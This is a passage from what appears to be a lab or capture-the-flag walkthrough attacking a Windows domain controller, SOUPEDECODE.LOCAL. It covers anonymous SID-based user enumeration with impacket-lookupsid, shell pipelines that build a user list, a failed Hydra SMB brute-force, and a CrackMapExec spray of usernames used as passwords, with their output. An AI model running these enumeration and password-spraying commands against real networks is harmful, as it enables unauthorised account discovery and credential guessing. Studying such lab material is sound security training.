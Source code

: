 ```
1106: SOUPEDECODE\eyara3 (SidTypeUser)
1107: SOUPEDECODE\pquinn4 (SidTypeUser)
1108: SOUPEDECODE\jharper5 (SidTypeUser)
1109: SOUPEDECODE\bxenia6 (SidTypeUser)

[...]
```

</🔄 Alternative Step>

`impacket-lookupsid -no-pass 'SOUPEDECODE.LOCAL/anonymous@192.168.56.128' > ./out.txt`

`cat ./out.txt | grep -e "SidTypeUser" > ./out2.txt`

`cat ./out2.txt | awk '{print $2}' > ./out3.txt`

`cat ./out3.txt | cut -d '\' -f2 | cut -d ' ' -f1 | tee ./domain_users.txt`:
```
Administrator
Guest
krbtgt
DC01$
bmark0
otara1
kleo2
eyara3
pquinn4
jharper5
bxenia6
gmona7
oaaron8
pleo9
evictor10

[...]
```

<❌ Failed Step>

`hydra -L ./domain_users.txt -e s -F -V smb://192.168.56.128`:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-21 15:09:53
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1069 login tries (l:1069/p:1), ~1069 tries per task
[DATA] attacking smb://192.168.56.128:445/
[ERROR] invalid reply from target smb://192.168.56.128:445/ ←
```

</❌ Failed Step>

`crackmapexec smb 192.168.56.128 -u ./domain_users.txt -p ./domain_users.txt --no-bruteforce`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) ←
SMB         192.168.56.128  445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS_LOGON_FAILURE
SMB         192.168.56.128  445    DC01             [-] SOUPEDECODE.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
SMB         192.168.56.128  445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:krbtgt STATUS_LOGON_FAILURE
SMB         192.168.56.128  445    DC01             [-] SOUPEDECODE.LOCAL\DC01$:DC01$ STATUS_LOGON_FAILURE
SMB         192.168.56.128  445    DC01             [-] SOUPEDECODE.LOCAL\bmark0:bmark0 STATUS_LOGON_FAILURE
```